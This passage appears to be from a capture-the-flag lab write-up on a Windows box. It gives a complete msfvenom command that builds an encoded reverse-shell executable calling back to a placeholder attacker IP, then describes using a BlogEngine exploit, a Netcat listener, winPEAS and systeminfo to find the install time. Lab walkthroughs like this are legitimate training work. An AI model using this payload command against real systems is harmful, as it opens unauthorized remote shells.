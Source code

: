 ### [ Using winPeas, what was the Original Install time? (This is date and time) ]

*This section of the room is completed without the use of Metasploit.*

<br>

First, we generate a new reverse shell payload using **msfvenom**.

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP_HERE LPORT=9999 -e x86/shikata_ga_nai -f exe -o shell2.exe
```

Next, we gain initial access into the machine again using the BlogEngine exploit. From there, we repeat the same steps to get the **shell2.exe** reverse shell script onto the target machine. 

Next, instead of using Metasploit, we shall set up a basic **Netcat** listener instead. Once everything is set up, we can run the reverse shell with ```.\shell2.exe```.

<img style="float: left;" src="screenshots/screenshot24.png">

And we're in! 

<br>

Now, we just have to transfer the **winPEASx86.exe** in the same manner, then run it.

Unfortunately, I was unable to find the **Original Install Time** in WinPEAS. After looking through the results many times, I decided to forgo using WinPEAS and use the ```systeminfo``` command instead.

<img style="float: left;" src="screenshots/screenshot25.png">

<br>

Original Install Time: **8/3/2019, 10:43:23 AM**


